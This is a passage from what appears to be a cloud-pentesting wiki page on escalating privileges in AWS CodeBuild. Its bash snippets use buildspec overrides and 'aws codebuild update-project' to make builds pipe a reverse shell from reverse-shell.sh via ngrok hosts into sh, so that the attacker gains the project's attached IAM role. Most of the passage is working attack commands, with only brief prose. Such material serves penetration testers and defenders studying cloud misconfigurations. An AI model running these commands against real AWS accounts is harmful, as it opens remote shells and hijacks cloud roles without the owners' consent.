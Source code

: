 {% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/builspec.yml <<EOF
version: 0.2

phases:
  build:
      commands:
            - curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build-batch --project <project-name> --buildspec-override file:///tmp/builspec.yml
```
{% endcode %}
{% endtab %}
{% endtabs %}

**Potential Impact:** Direct privesc to attached AWS Codebuild roles.

### `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Like in the previous section but **without the `iam:PassRole` permission**, you can abuse this permissions to **modify existing Codebuild projects and access the role they already have assigned**.

{% tabs %}
{% tab title="StartBuildBatch" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

# You need to indicate the name of the project you want to modify
JSON="{
    \"name\": \"codebuild_lab_3_project\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nbatch:\\\\n  fast-fail: false\\\\n  build-list:\\\\n    - identifier: build1\\\\n      env:\\\\n        variables:\\\\n          BUILD_ID: build1\\\\n      buildspec: |\\\\n        version: 0.2\\\\n        env:\\\\n          shell: sh\\\\n        phases:\\\\n          build:\\\\n            commands:\\\\n              - curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh\\\\n      ignore-failure: true\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\",
        \"imagePullCredentialsType\": \"CODEBUILD\"
    }
}"

printf "$JSON" > $REV_PATH

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build-batch --project-name codebuild-demo-project
```
